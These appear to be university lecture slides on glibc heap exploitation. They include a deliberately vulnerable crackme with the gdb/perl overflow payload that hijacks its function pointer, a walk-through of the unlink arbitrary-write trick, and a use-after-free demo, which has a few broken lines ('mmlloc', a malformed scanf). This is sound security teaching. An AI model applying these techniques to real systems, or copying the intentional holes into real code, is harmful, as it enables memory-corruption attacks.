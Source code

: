#+title: Lecture 2: Heap overflows and the Malloc Maleficarum
#+author: Joseph Hallett
#+institute: University of Bristol
#+startup: beamer
#+options: toc:nil
#+latex_class_options: [9pt,aspectratio=169]
#+beamer_header: \titlegraphic{\includegraphics[height=0.5cm]{bristol.png}}
#+beamer_font_theme: [stillsansseriflarge]serif
#+latex_header: \usepackage{fontspec}
#+latex_header: \usepackage{listings}
#+latex_header: \lstset{basicstyle=\footnotesize,colums=flexible}
#+latex_header_extra: \setsansfont{HVD Comic Serif Pro}
#+latex_header_extra: \setmainfont{Comic Sans MS}
#+latex_header_extra: \setmonofont{ComicCodeLigatures}
#+latex_header_extra: \definecolor{UOBred}{rgb}{0.6706, 0.1216, 0.1765}
#+latex_header_extra: \setbeamercolor{palette primary}{bg=UOBred, fg=white}
#+latex_header_extra: \setbeamercolor{palette secondary}{bg=UOBred, fg=white}
#+latex_header_extra: \setbeamercolor{palette tertiary}{bg=UOBred, fg=white}
#+latex_header_extra: \setbeamercolor{palette quaternary}{bg=UOBred, fg=white}
#+latex_header_extra: \setbeamercolor{structure}{fg=UOBred}
#+latex_header_extra: \setbeamercolor{structure}{fg=UOBred}
#+latex_header_extra: \renewcommand{\alert}[1]{\textbf{#1}}

* Recap
** Last time...

We went over some classic bug types, and gave a /hint/ about how to exploit them:
- We played around with some assembly in the lab

** This time...

We're going to move from the /stack/ to the heap and think about some of the bugs we can find over there.
- We're going to explore how /Glibc's/ implementation of =malloc= works and what we can do with it
- Format string exploits in the lab!
* Warning!

** Here be dragons
A lot of this stuff is highly system dependent and varies from architecture to architecture.
- It is conceptually /fiddly/ (and technically too!)
- Even within a single system, there can be multiple heap implementations and memory management libraries in play
  - Sometimes even within one application...

I'm going to go /high-level/ and give you concepts and history
- When I /do go/ into more detail I'm going to try and focus on Linux and the GNU Libc
- Other systems exist (and are radically different)
- To understand in detail you need to read /your/ =malloc= implementation

* So what's this all about?

** We'd like to create objects dynamically in memory
This means we need to talk to the OS and ask it to give us more (and occasionally less) memory depending on our need.

POSIX gives us a set of standard system calls for doing this:
- =mmap= :: maps devices and files into a program's running memory.
- =mprotect= :: lets us set usage policies about memory
- =brk= & =sbrk= :: /(deprecated mostly)/ for controlling how big the program data is

But system calls are really slow (generally)...
- and we might want to create lots of objects dynamically
- and not all OSs implement POSIX standards and API in the same way

...and the C programming language is meant to be /vaguely/ portable...

* =malloc= and =free=

Instead of going to the kernel every time we want to manage memory lets try and do it in userland!

When a program starts we'll give it a reasonable chunk of memory in its virtual address space, and an API for managing it.
- It can call the system calls /if necessary/
- We'll base it on a /heap/ datastructure and call it /the heap/
- We'll call it =malloc= and =free=

** By the way

We call it /the heap/ but depending on the implementation it might not actually be a heap anymore.

* Every OS has a slightly different =malloc= implementation

** Linux (Debian)

#+begin_src C
  #include <stdlib.h>

  void *malloc(size_t size);
  void free(void *ptr);
  void *calloc(size_t nmemb, size_t size);
  void *realloc(void *ptr, size_t size);
  void *reallocarray(void *ptr, size_t nmemb, size_t size);
#+end_src

* Every OS has a slightly different =malloc= implementation          
** MacOS
     #+begin_src C
     #include <stdlib.h>

     void *
     calloc(size_t count, size_t size);

     void
     free(void *ptr);

     void *
     malloc(size_t size);

     void *
     realloc(void *ptr, size_t size);

     void *
     reallocf(void *ptr, size_t size);

     void *
     valloc(size_t size);
     #+end_src
  
* Every OS has a slightly different =malloc= implementation       :B_columns:

** OpenBSD                                                            :BMCOL:
:PROPERTIES:
:BEAMER_opt: [t]
:BEAMER_col: 0.49
:END:

#+begin_src C
  #include <stdlib.h>

  void *
  malloc(size_t size);

  void *
  calloc(size_t nmemb, size_t size);

  void *
  realloc(void *ptr, size_t size);

  void
  free(void *ptr);

  void *
  reallocarray(void *ptr, size_t nmemb, size_t size);
  #+end_src

** ...                                                                :BMCOL:
:PROPERTIES:
:BEAMER_opt: [t]
:BEAMER_col: 0.49
:END:
  #+begin_src C
  void *
  recallocarray(void *ptr, size_t oldnmemb, size_t nmemb, size_t size);

  void
  freezero(void *ptr, size_t size);

  void *
  aligned_alloc(size_t alignment, size_t size);

  void *
  malloc_conceal(size_t size);

  void *
  calloc_conceal(size_t nmemb, size_t size);

  char *malloc_options;
#+end_src


* Example time                                                    :B_columns:

**  Part 1                                                            :BMCOL:
:PROPERTIES:
:BEAMER_opt: [t]
:BEAMER_col: 0.49
:END:
32-bit Linux, no ASLR.  Make it print /"You win"/ instead of /"You lose"/...

#+begin_src C :tangle crackme.c
  #include <stdlib.h>
  #include <stdio.h>
  #include <string.h>

  struct data { char name[64]; };
  struct fp { int  (*fp)(); };

  int winner() { return printf("You win\n"); }
  int nowinner() { return printf("You lose\n"); }

  int main(int argc, char *argv[]) {
    struct data *d;
    struct fp *f;
#+end_src
** Part 2                                                             :BMCOL:
:PROPERTIES:
:BEAMER_opt: [t]
:BEAMER_col: 0.49
:END:

#+begin_src C :tangle crackme.c
    d = malloc(sizeof(struct data));
    f = malloc(sizeof(struct fp));
    printf("data is at %p\nfp is at %p\n", d, f);

    f->fp = nowinner;
    strcpy(d->name, argv[1]);
    f->fp();

    return 0;
  }
#+end_src

* Attack Start

#+begin_src shell
  $ ./crackme hello
  data is at 0x8db8008
  fp is at 0x8db8050
  You lose

  $ nm ./crackme | grep winner
  080484b4 T nowinner
  0804849b T winner

  $ gdb ./crackme
  (gdb) run $(perl -e 'print "A"x128')
  Starting program: /home/user/crackme $(perl -e 'print "A"x128')
  data is at 0x804b008
  fp is at 0x804b050

  Program received signal SIGSEGV, Segmentation fault.
  0x41414141 in ??()
#+end_src

Anyone want to solve it?

* Attack Complete

#+begin_src shell
  $ gdb ./crackme
  (gdb) run $(perl -e 'print "A"x(0x50-0x08), "\x9b\x84\x04\x08"')
  Starting program: /home/user/crackme $(perl -e 'print "A"x(0x50-0x08), "\x9b\x84\x04\x08"')

  data is at 0x804b008
  fp is at 0x804b050
  You win!
  [Inferior 1 (process 1652) exited normally]
#+end_src

* What just happened?

The buffer and the function pointer were allocated sequentially on the heap.
- We overwrote the function pointer with =strcpy=
  - Initially with ='A'= (=0x41=) to prove we had overwritten the right thing
- Then more precisely with the address of the function we /actually/ wanted to call

* ...underwhelming, much?

This is just a buffer overflow again, but in a slightly different location.

It isn't *totally* unrealistic...
- You could do OO programming in C like this with structs of function pointers,
- (BTW C++ has its own allocation mechanisms, and typically won't use =malloc= internally... do have a play!)

More generally...
- Buffers exist on the heap
- We can over (and under) flow them, as normal
- Sometime; you hit something useful

* Faces of =malloc=                                               :B_columns:

** Doug Lea                                                           :BMCOL:
:PROPERTIES:
:BEAMER_opt: [t]
:BEAMER_col: 0.49
:END:
#+attr_latex: :width .8\linewidth
[[./douglea.jpg]]

Author of the first popular =malloc= implementation

** Solar Designer                                                     :BMCOL:
:PROPERTIES:
:BEAMER_opt: [t]
:BEAMER_col: 0.49
:END:

[[./solardesigner.jpg]]

First general heap overflow technique against GNU ~malloc~

* =maloc= internals                                               :B_columns:

** So how does =malloc= actually work?                                :BMCOL:
:PROPERTIES:
:BEAMER_opt: [t]
:BEAMER_col: 0.49
:END:

*Every* =malloc= implementation is different.
- I'm gonna try and keep this super high level…
- To exploit a real malloc implementation you need to read the code and think

#+begin_src C
  char *a = calloc(16 * sizeof(*a));
  char *b = calloc(16 * sizeof(*b));
  char *c = calloc(16 * sizeof(*c));

  printf("Pointer Address\n");
  printf("&a %p\n&b %p\n&c %p\n", a, b, c);
#+end_src

** 3 pointers                                                         :BMCOL:
:PROPERTIES:
:BEAMER_opt: [t]
:BEAMER_col: 0.49
:END:

| Pointer | Address     |
|--------+-------------|
| =a=    | =0x1dce2a0= |
| =b=    | =0x1dce2c0= |
| =c=    | =0x1dce2e0= |

This gives us three pointers to memory allocated on the heap
- Lets have a look  what is there and whats in surrounding memory
- Lets observe how it changes as we free the memory

* Zero =free()= s are...
#+begin_src 
Initially:
                0  1  2  3  4  5  6  7  8  9  a  b  c  d  e  f  
              +-------------------------------------------------
     0x1dce29*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
a -> 0x1dce2a*| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
     0x1dce2b*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
b -> 0x1dce2c*| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
     0x1dce2d*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
c -> 0x1dce2e*| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
     0x1dce2f*| 00 00 00 00 00 00 00 00 11 04 00 00 00 00 00 00 
#+end_src

* Once =free()= is...

#+begin_src 
free(a):
                0  1  2  3  4  5  6  7  8  9  a  b  c  d  e  f  
              +-------------------------------------------------
     0x1dce29*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
a -> 0x1dce2a*| ce 1d 00 00 00 00 00 00 d0 8f f1 6e 08 20 33 e3 
     0x1dce2b*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
b -> 0x1dce2c*| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
     0x1dce2d*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
c -> 0x1dce2e*| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
     0x1dce2f*| 00 00 00 00 00 00 00 00 11 04 00 00 00 00 00 00 
#+end_src

* Two =free()s= are...

#+begin_src 
free(b):
                0  1  2  3  4  5  6  7  8  9  a  b  c  d  e  f  
              +-------------------------------------------------
     0x1dce29*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
a -> 0x1dce2a*| ce 1d 00 00 00 00 00 00 d0 8f f1 6e 08 20 33 e3 
     0x1dce2b*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
b -> 0x1dce2c*| 6e ff dc 01 00 00 00 00 d0 8f f1 6e 08 20 33 e3 
     0x1dce2d*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
c -> 0x1dce2e*| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
     0x1dce2f*| 00 00 00 00 00 00 00 00 11 04 00 00 00 00 00 00 
#+end_src

* Three =free()s= are...

#+begin_src 
free(c):
                0  1  2  3  4  5  6  7  8  9  a  b  c  d  e  f  
              +-------------------------------------------------
     0x1dce29*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
a -> 0x1dce2a*| ce 1d 00 00 00 00 00 00 d0 8f f1 6e 08 20 33 e3 
     0x1dce2b*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
b -> 0x1dce2c*| 6e ff dc 01 00 00 00 00 d0 8f f1 6e 08 20 33 e3 
     0x1dce2d*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
c -> 0x1dce2e*| 0e ff dc 01 00 00 00 00 d0 8f f1 6e 08 20 33 e3 
     0x1dce2f*| 00 00 00 00 00 00 00 00 11 04 00 00 00 00 00 00 
#+end_src

* But what does it mean?

When memory gets allocated (and deallocated) extra /stuff/ gets written to the heap.
- Some of it looks a bit pointer-y
- Data gets written into the heap based on this data on a =free()=
- =malloc()= is probably using it to work out where the free sections are

* An idea for some heap /vudu/...

Data is clearly being written by =malloc()= and its friends
- /If/ we have a buffer overflow in the heap...
- And /if/ we can overflow into these =malloc()= headers...
- Can we abuse it to get =free()= to write to an arbitrary pointer?
  - (yes)
  
* How its meant to work...

- Memory starts out as a big /arena/ :: region of memory for the program's heap(s); shared among threads
- Each /heap/ :: belongs to one arena and is divided into...
- /Chunks/ :: which are small ranges of memory that can be allocated from

* So what was all that stuff on the heap?

[[./chunks.png]]

* Tidying up

As memory gets used by your programs it gets more and more /chunked/ up.
- This causes problems!
- What if you want to allocate a big chunk, but you've only got a load of little sequential free chunks?

To deal with this (under certain circumstances*) =free()= will merge chunks when releasing the memory.
- If the =bck= chunk is free...
- It'll go back and update the size to include both of them...
- and it'll update the =bck= chunk's =fwd= pointer to be this chunks =fwd= pointer...
- Merging the two chunks! 
- and it'll update the =fwd= chunk's =bck= pointer to be the new merged chunk.

* Once upon a =free()=

#+begin_src C
  #define unlink(P, BK, FD) { \
  BK = P->bk;                 \
  FD = P->fd;                 \
  FD->bk = BK;                \
  BK->fd = FD;                \
}
#+end_src

- The =fwd= pointer's =bck= pointer is going to be set to the =bck= pointer
- The =bck= pointer's =fwd= pointer is going to be set to the =fwd= pointer

...but if everything is corrupted and we could set the =bck= pointer to be an address we want to overwrite,
- and set the =fwd= pointer to be the value we want to corrupt it with

* Spaghetti!

** ...maybe?

There are some tricks with creating fake chunks in memory and setting the =fwd= pointer to be a fake chunk to avoid segfaulting
- ...but thats the basics of it.
- It gives you a one integer arbitrary write...
  - (which could be aimed at a stack return address).

Yes this is /horrendously/ fiddly, and nowadays the =free()= routine is patched to avoid this.
- But /Solar Designer/ used this technique to exploit the JPEG decoder in /Netscape Navigator/ (pre-Firefox Firefox) back in 2000.
- And its the basis for many heap attacks going foreward.

See
- Anonymous's Once Upon a free()... :: [[http://phrack.org/issues/57/9.html]]
- Solar Designer's vulnerability notice :: [[https://www.openwall.com/articles/JPEG-COM-Marker-Vulnerability]]

* One more for luck: Use after =free()=

Suppose we have a pointer to a =malloc='d region...

And then we free it...

But the pointer sticks around and is still used

** Can we use this for tricksy magic?

* Recycling chunks

Once a chunk has been used, it is released back into the free pool.
- Which means a process can reuse that memory for future allocations.

* Ruh-roh                                                         :B_columns:

** Source                                                             :BMCOL:
:PROPERTIES:
:BEAMER_opt: [t]
:BEAMER_col: 0.49
:END:

#+begin_src C :tangle use-after-free.c
  #include <stdio.h>
  #include <stdlib.h>
  void you_win() { printf("You win!\n"); }
  void you_lose() { printf("You lose!\n"); }
  typedef struct { void (*method)(); } Classy_Thing;
  int main(void) {
    char *buffer1 = mmlloc(BUFSIZ);
    char *buffer2 = malloc(BUFSIZ);
    free(buffer2);
    Classy_Thing *thing = malloc(sizeof(Classy_Thing));
    thing->method = you_lose;
    printf("you_win %p\nyou_lose %p\n", you_win, you_lose);
    printf("buffer1 %p\nbuffer2 %p\n", buffer1, buffer2);
    printf("thing %p\n", thing);
    scanf("%" BUFSIZ "s", buffer2);
    thing->method();
  }
#+end_src

** Results                                                            :BMCOL:
:PROPERTIES:
:BEAMER_opt: [t]
:BEAMER_col: 0.49
:END:
#+begin_src
make use-after-free
./use-after-free 
#+end_src
#+results:

|=you_win= |=0x0401176=|
|=you_lose= |=0x0401187=|
|=buffer1= |=0x13602a0=|
|=buffer2= |=0x13622b0=|
|=thing= |=0x13622b0=|

* Recap

** What we've covered today
- Trivial heap overflow :: you might hit something useful.
- Once upon a =free()=... :: spaghetti with pointers can lead to an arbitrary write
- Use after =free()= :: pointers hang around sometimes

** How do we stop this?
Kind of an open question.
- Maybe don't let developers have pointers?
- Maybe add more randomness (but randomness is expensive)
- Fine-grained memory protections /(coming soon)/

** Next time...

In the lab:
- Buffer overflows and shellcode

Next lecture:
- Return Oriented Programming

* Malloc Maleficarum

** Further reading
Start with in /Phrack/:
- [[http://phrack.org/issues/57/8.html#article][Vudu malloc tricks (Michel "MaXX" Kaempf)]]
- [[http://phrack.org/issues/57/9.html][Once upon a free (anonymous)]]

And then go read [[https://seclists.org/bugtraq/2005/Oct/118][The Malloc Maleficarum]] by /Phantasmal Phantasmagoria/.
- 5 =malloc= based heap exploitation techniques
- 1 poem
- Excellent hacker gibberish!

#+begin_verse
  Am I a hacker? No.
  I am a student of virtuality.
  I am the witch malloc,
  I am the cult of the otherworld,
  and I am the entropy.
  I am Phantasmal Phantasmagoria,
  and I am a virtual adept.
#+end_verse
